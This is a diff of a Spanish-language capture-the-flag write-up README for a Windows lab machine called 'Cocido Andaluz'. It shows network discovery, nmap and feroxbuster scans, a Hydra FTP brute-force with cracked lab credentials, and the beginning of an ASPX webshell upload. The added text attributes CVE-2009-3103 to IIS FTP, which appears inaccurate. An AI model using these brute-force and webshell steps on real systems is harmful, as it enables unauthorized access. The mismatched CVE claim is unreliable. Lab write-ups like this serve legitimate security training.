

Before and after one commit to kaleth4/THEHACKERLABS, a Markdown page: COCIDO-ANDALUZ/README.md, the part around one of its changes. Shown at 83% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/COCIDO-ANDALUZ/README.md
+++ b/COCIDO-ANDALUZ/README.md
@@ -1,84 +1,42 @@
-# 🍲 Cocido Andaluz
-**Plataforma:** [The Hackers Labs](https://thehackerslabs.com)
-**Sistema Operativo:** Windows
 
-## 🔍 **Reconocimiento de Hosts**
+# 🔥 **Máquina Cocido Andaluz - Write-Up de Hacking Ético**
 
-### Descubrimiento de la IP de la víctima
-```bash
-netdiscover -i eth1 -r 10.0.0.0/16
-```
-
-**Resultado:**
-```
-Currently scanning: 10.0.0.0/16   |   Screen View: Unique Hosts
-
- 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240
-
- _____________________________________________________________________________
-   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
- -----------------------------------------------------------------------------
- 10.0.4.1        52:54:00:12:35:00      1      60  Unknown vendor
- 10.0.4.2        52:54:00:12:35:00      1      60  Unknown vendor
- 10.0.4.3        08:00:27:67:2e:3e      1      60  PCS Systemtechnik GmbH
- 10.0.4.38       08:00:27:9a:e7:06      1      60  PCS Systemtechnik GmbH
-```
-
-🎯 **IP de la víctima identificada:** `10.0.4.38`
+> *Resumen detallado de la explotación de una máquina vulnerable en entornos de laboratorio*
 
 ---
 
-## 🚀 **Escaneo de Puertos**
-
-### Escaneo inicial (puertos abiertos)
-```bash
-nmap -n -Pn -sS -sV -p- --open --min-rate 5000 10.0.4.38
-```
-
-### Escaneo detallado (versiones y servicios)
-```bash
-nmap -n -Pn -sCV -p21,80,139,445 --min-rate 5000 10.0.4.38
-```
-
-**Resultado:**
-```
-PORT    STATE SERVICE       VERSION
-21/tcp  open  ftp           Microsoft ftpd
-80/tcp  open  http          Microsoft IIS httpd 7.0
-139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
-445/tcp open  microsoft-ds?
-```
-
-🔍 **Servicios identificados:**
-- **FTP (21):** Microsoft ftpd
-- **HTTP (80):** Microsoft IIS 7.0
-- **NetBIOS (139):** Microsoft Windows
-- **SMB (445):** Microsoft-ds
+## 📌 **Introducción**
+La **Máquina Cocido Andaluz** es un sistema diseñado para prácticas de hacking ético, enfocado en la explotación de vulnerabilidades comunes en entornos Windows. A través de un proceso estructurado de enumeración, explotación y escalada de privilegios, se logró comprometer completamente el sistema, obteniendo acceso como **SYSTEM** y extrayendo ambas flags: **user.txt** y **root.txt**.
 
 ---
 
-## 🔓 **Fuerza Bruta (FTP)**
+## 🚀 **Fase de Reconocimiento y Escaneo de Puertos**
 
-### Ataque con Hydra
+### 🔍 **Comando de Escaneo con Nmap**
+Se inició el reconocimiento con un escaneo TCP agresivo para identificar servicios expuestos:
+
 ```bash
-hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/seclists/Passwords/Common-Credentials/xato-net-10-million-passwords.txt ftp://10.0.4.38 -t 50
+nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.151 -oN Escaneo_TCP
 ```
 
-**Resultado:**
-```
-[21][ftp] host: 10.0.4.38   login: info   password: PolniyPizdec0211
-```
+### 📊 **Resultados del Escaneo**
+Se detectaron **12 puertos abiertos**, incluyendo:
+- **Puerto 21 (FTP)** → Posible vector de entrada para carga de archivos maliciosos.
+- **Puerto 80 (HTTP)** → Servidor web con **Microsoft IIS 7.0** (tecnología ASP.NET).
+- **Puertos 135 (MSRPC), 139/445 (SMB)** → Servicios típicos de Windows.
+- **Puertos RPC dinámicos (49152–49158)** → Posibles vectores de ataque avanzados.
 
-🔑 **Credenciales válidas:**
-- **Usuario:** `info`
-- **Contraseña:** `PolniyPizdec0211`
+> 🔴 **Vulnerabilidad crítica detectada**:
+> - **CVE-2009-3103 (Microsoft IIS FTP Server Remote Code Execution)** → Permite ejecución remota de comandos (RCE) vía FTP.
 
 ---
 
-## 💻 **Acceso Inicial (RCE)**
+## 🌐 **Fuzzing Web y Análisis de Directorios**
 
-### Conexión FTP y subida de la webshell ASPX
+### 🔎 **Escaneo con Feroxbuster**
+Se buscaron rutas ocultas en el servidor web:
+
 ```bash
-ftp info@10.0.4.38
+feroxbuster -u http://192.168.1.151 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .php,.html,.txt
 ```
 
````
Also changed, not shown: other parts of COCIDO-ANDALUZ/README.md (+141 -50 lines).
